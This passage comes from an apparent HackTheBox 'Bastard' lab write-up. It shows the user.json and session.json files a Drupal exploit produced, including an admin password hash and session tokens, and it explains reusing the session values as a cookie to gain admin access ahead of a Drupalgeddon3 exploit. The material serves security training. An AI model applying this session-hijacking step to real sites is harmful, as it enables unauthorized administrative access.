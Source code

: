 The exploit also created two files `session.json` and `user.json`.

#### User.json
```json
kali@kali:~/Desktop/htb/bastard$ cat user.json
{
    "uid": "1",
    "name": "admin",
    "mail": "drupal@hackthebox.gr",
    "theme": "",
    "created": "1489920428",
    "access": "1492102672",
    "login": 1597891473,
    "status": "1",
    "timezone": "Europe\/Athens",
    "language": "",
    "picture": null,
    "init": "drupal@hackthebox.gr",
    "data": false,
    "roles": {
        "2": "authenticated user",
        "3": "administrator"
    },
    "rdf_mapping": {
        "rdftype": [
            "sioc:UserAccount"
        ],
        "name": {
            "predicates": [
                "foaf:name"
            ]
        },
        "homepage": {
            "predicates": [
                "foaf:page"
            ],
            "type": "rel"
        }
    },
    "pass": "$S$DRYKUR0xDeqClnV5W0dnncafeE.Wi4YytNcBmmCtwOjrcH5FJSaE"
 ```
 
#### Session.json
```json
{
    "session_name": "SESS3be1999be4b134a44bef1e6c979c5741",
    "session_id": "GW-o-VjGaQh8C0iUmQ9H3hF9zclzIcZTALbyOOn9dQY",
    "token": "4QC_BpEizotQZYV8lANthATkegiE-COJCytDIMmDicY"
}
```

I tried cracking the hash, but it did not budge. The session information can be used as a cookie to login as `admin` user. A cookie with value of `session_name` as the cookie name and the value of `session_id` as the cookie value can give us `admin` access. This is required for `Drupalgeddon3` exploit.

